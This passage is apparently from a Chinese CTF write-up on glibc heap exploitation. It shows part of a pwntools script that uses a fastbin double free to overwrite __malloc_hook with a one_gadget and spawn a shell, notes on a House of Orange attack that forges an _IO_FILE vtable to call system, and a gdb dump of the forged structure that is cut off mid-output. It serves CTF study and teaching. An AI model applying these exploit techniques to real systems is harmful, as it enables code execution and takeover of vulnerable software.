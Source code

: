 ```
add(0x60, 'f'*8) #9
add(0x60, 'f'*8) #10

delete(8)
delete(9)
delete(8)

gad1 = 0x45216
gad2 = 0x4526a
gad3 = 0xf02a4
gad4 = 0xf1147

add(0x60, p64(malloc_hook-0x23)) #9
add(0x60, 'p') #11
add(0x60, 'p') #12
add(0x60, 'a'*(0x23-16)+p64(gad4+libc_base))

p.recvuntil(">")
p.sendline(str(1))
p.sendlineafter("Enter the size of your deet:", str(0x60))

p.interactive()
```

### house_of_horror

分配一个大块覆盖原来的两个块，然后在里面构造unlink，进而控制bss_list，泄露heap和libc，然后利用house of orage来getshell
修改_IO_list_all，然后在堆上伪造IO结构体和vtable，写__overflow 为system地址，然后abort之后就getshell了
调用顺序：(malloc_printerr->__libc_message->)abort->fflush(_IO_flush_all_lockp)->vtable->_IO_OVERFLOW(hijack->system)
关于调用system时参数的地址：

```
并且在 xsputn 等 vtable 函数进行调用时，传入的第一个参数其实是对应的_IO_FILE_plus 地址。比如这例子调用 printf，传递给 vtable 的第一个参数就是_IO_2_1_stdout_的地址。
```

上面是CTFWIKI的解释，既然传入的是_IO_2_1_stdout_的地址，这个是调用printf时候的参数取值，当出现abort的时候调用的应该是_IO_2_1_stderr_的地址。

```
gdb-peda$ p *(struct _IO_FILE_plus *)0x000000000211d020
$11 = {
  file = {
    _flags = 0x6e69622f, 
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x1 <error: Cannot access memory at address 0x1>, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x0, 
    _fileno = 0x0, 
    _flags2 = 0x0, 
    _old_offset = 0x0, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "", 
    _lock = 0x0, 
    _offset = 0x0, 
```